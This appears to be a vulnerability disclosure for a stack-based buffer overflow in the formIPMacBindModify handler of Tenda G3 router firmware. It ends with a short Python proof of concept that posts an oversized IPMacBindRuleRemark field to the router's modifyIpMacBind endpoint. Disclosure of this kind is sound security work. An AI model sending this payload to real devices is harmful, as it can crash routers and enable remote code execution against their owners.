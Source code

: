 # Tenda G3 formIPMacBindModify
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formIPMacBindModify function.
### Vulnerability details
Stack-based buffer overflow in function formIPMacBindModify on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formIPMacBindModify line 48,  it reads in 4 user-provided parameters, and the variable ruleId, ip, mac, remark are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formIPMacBindModify-1.png)
![](images/formIPMacBindModify-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/modifyIpMacBind'
payload = {
    "IPMacBindRuleRemark": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
